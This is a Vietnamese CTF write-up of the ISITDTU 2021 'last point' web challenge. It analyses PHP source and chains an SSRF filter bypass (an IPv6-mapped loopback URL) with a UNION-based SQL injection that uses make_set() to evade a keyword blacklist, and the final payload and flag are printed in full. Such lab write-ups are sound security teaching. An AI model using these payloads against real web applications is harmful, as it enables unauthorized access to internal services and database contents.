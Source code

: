# lastpoint

![image](https://user-images.githubusercontent.com/61876488/144350159-7f1593ac-038a-4531-82e5-81c0bb4fcbb2.png)


[Source](https://github.com/antoinenguyen-09/All_CTF_write-ups/tree/master/ISITDTU%20CTF/2021/web/last%20point/source)

### 1. Initial reconnaissance:

Đầu tiên chúng ta cần tạo account để login vào:

![](https://i.imgur.com/6e4zTGP.png)

Xem qua source của trang [login](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/login.php) và [register](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/register.php) cũng bình thường không có gì, chỉ còn mỗi 2 trang [index](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/index.php) và [home](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/home.php) để chúng ta xem xét.

### 2. Analyze and find the vulnerabilities:

#### a) index.php:

![](https://i.imgur.com/9iZ7VYu.png)

Mới nhìn vào có vẻ đây là tính năng nhập một URL bất kì rồi trả về nội dung của URL đó. Hướng đi của challenge này có vẻ là là khai thác [SSRF](https://portswigger.net/web-security/ssrf) rồi. Nhưng trước hết chúng ta sẽ gặp vật cản đầu tiên là hàm `filter` dưới đây:

```php
function filter($url) {
	$black_lists = ['127.0.0.1', '0.0.0.0'];
	$url_parse = parse_url($url);
	$ip = gethostbyname($url_parse['host']);
    if (in_array($ip,$black_lists)) {
        return false;
    }
	return true;
}
```
Tác giả đã lộ rõ ý đồ blacklist 2 ip là `127.0.0.1` và `0.0.0.0`, vì 2 ip này đếu trỏ đến `localhost`, điểm mấu chốt để khai thác SSRF. Thậm chí ngay cả khi bạn nhập vào url `https://localhost/home.php` rồi submit thì nó cũng cho kết quả tương tự:

![](https://i.imgur.com/r5pdh7A.png)

Không những blacklist 2 ip này mà tác giả còn sanitize và validate biến `$url` bằng cách lowercase, regex. Nếu pass qua được hết thì một curl session sẽ được tạo với biến `$url`, kết quả của curl session này sẽ được trả về tại biến `$output` (tham khảo về cách dùng curl tại [đây](https://viblo.asia/p/curl-va-cach-su-dung-trong-php-naQZRAXdKvx)). Còn nếu không pass sẽ kết thúc chương trình và in ra "NO NO NO NO" như hình trên:

```php
$url = strtolower($_POST['url']);
$check = filter($url);
if (filter_var($url,FILTER_VALIDATE_URL,FILTER_FLAG_IPV4) && preg_match('/(^https?:\/\/[^:\/]+)/',$url) && $check) {
    sleep(1);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, false);
    curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 3);
    curl_setopt($ch, CURLOPT_TIMEOUT, 1);
    $output = curl_exec($ch);
    curl_close($ch);
} 
else {
    die ("NO NO NO NO");
}
```

#### b) home.php:

![](https://i.imgur.com/tVnPZzL.png)

Có lẽ có một tính năng "ẩn" ở `home.php` vì một lí do nào đó chúng ta lại không sử dụng được. Từ source ta biết được rằng `home.php` luôn luôn in ra "This is not a private ip" nếu như [client ip address](https://www.geeksforgeeks.org/php-determining-client-ip-address) trong request gửi đến trang này không phải là `127.0.0.1`:

```php
if ($_SERVER['REMOTE_ADDR'] !== "127.0.0.1") {
  die("<center>This is not a private ip</center>");
}
```
Xem kĩ source thì chúng ta biết được tính năng "ẩn" đó cho phép chúng ta truy vấn thông tin của các user trên web app này thông qua url parameter là `id`:

```php
if (isset($_GET['id'])) {
  $id = $_GET['id'];
  if (!preg_match('/sys|procedure|xml|concat|group|db|where|like|limit|in|0x|extract|by|load|as|binary|
    join|using|pow|column|table|exp|info|insert|to|del|admin|pass|sec|hex|username|regex|id|if|case|and|or|ascii|[~.^\-\/\\\=<>+\'"$%#]/i',$id) && strlen($id) < 90) {
    $query = "SELECT id,username FROM users WHERE id={$id};";
    $result = $conn->query($query);
    while ($row = $result->fetch_assoc()) {
      echo "<tr><th>".$row['id']."</th><th>".$row['username'];
    }
    $result->free();
  }
}
```
Nhưng đoạn code trên lại không dùng [prepared statement](https://www.w3schools.com/php/php_mysql_prepared_statements.asp) để truy vấn mà lại dùng hàm [query](https://www.php.net/manual/en/sqlite3.query.php). Do đó chắn chắn sẽ bị SQL Injection, vấn đề chỉ nằm ở việc có bypass được cái regex `/sys|procedure|xml|concat|group|db|where|like|limit|in|0x|extract|by|load|as|binary|join|using|pow|column|table|exp|info|insert|to|del|admin|pass|sec|hex|username|regex|id|if|case|and|or|ascii|[~.^\-\/\\\=<>+\'"$%#]/i` hay không. Có lẽ khai thác SQLi xong chúng ta sẽ lấy được flag?

### 3. Exploit and get flag:

Sau khi xem xét 2 tính năng của `index.php` và `home.php`, chúng ta có thể rút ra hướng để khai thác như sau:

- Bypass SSRF filter ở chức năng submit url tại trang `index.php` sao cho có thể gọi đến localhost của chính web app này, dùng nó để request và in ra nội dung của `home.php`.
- In ra được `home.php` thì chỉ việc bypass regex nữa là tha hồ lượn trong database của cái app này.

##### a) Bypass SSRF filter:

Để bypass được mọi thể loại filter thì cách nhàn hạ và nhanh nhất để là đi mò cheat sheet :D Sau khi thử hàng loạt payload trong cái [SSRF cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#payloads-with-localhost) thần thành này thì mình phát hiện ra có cái này dùng được:

```
http://[0:0:0:0:0:ffff:127.0.0.1]
```

![](https://i.imgur.com/VOawqca.png)

#### b) Bypass SQLi filter:

Trong regex dùng để filter SQLi này:

`/sys|procedure|xml|concat|group|db|where|like|limit|in|0x|extract|by|load|as|binary|join|using|pow|column|table|exp|info|insert|to|del|admin|pass|sec|hex|username|regex|id|if|case|and|or|ascii|[~.^\-\/\\\=<>+\'"$%#]/i`

Chúng ta phát hiện ra không có `union` trong số đó. Vậy thì còn ngần ngại gì mà không [UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) nữa!

Mục tiêu của việc exploit SQLi theo kiểu UNION attack là in ra toàn bộ data từ table `user`. Nếu như phải test black box thì cần có 1 bước là xác định số cột của `user`, nhưng mà trong source có luôn cả script sql ([main.sql](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/mysql/main.sql)) tạo table này nên không cần phải làm nữa:

```sql
CREATE TABLE `users` (
  `id` int(11) NOT NULL,
  `username` text NOT NULL,
  `password` text NOT NULL,
  `[CENSORED]` text NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
```

Table `user` có 4 column, nhưng lại có 1 column "ẩn" được đánh dấu là `[CENSORED]`, rất có thể flag sẽ nằm trong column này. Mặc dù không biết tên column này nhưng chúng ta lại biết được column này có index là 4 trong table `user`. Liệu có thể dùng `SELECT` để query `user` nhưng không dùng tên mà chỉ dùng index của column?
Nếu kết hợp khéo léo một chút giữa `SELECT` và hàm [make_set()](https://database.guide/how-the-make_set-function-works-in-mysql/) trong MySQL thì câu trả lời là có. Quá trình build script với ý tưởng này khá là loằng ngoằng, bạn có thể xem tóm tắt trong hình dưới. Ở đây mình tạo một table user tương tự như của web app nhưng chỉ có 2 cột là id và username.

![](https://i.imgur.com/j9poFif.png)

Oke, vậy payload SQLi cuối cùng sẽ là:

```
1 union select 1,make_set(1|4,`2`,`3`,`4`)from(select 1,2,3,4 union select * from users)a
```

Ghép với payload SSRF ở trên nữa ta sẽ lấy được flag:

![](https://i.imgur.com/CGrDwKp.png)

My final payload:

```
http://[0:0:0:0:0:ffff:127.0.0.1]/home.php?id=1%20union%20select%201,make_set(1%7c4,%602%60,%603%60,%604%60)from(select%201,2,3,4%20union%20select%20*%20from%20users)a
```

Flag: `ISITDTU{w0w_SSRF_ch4in_SQLI_3Zzzz_h3he_!!!!}`





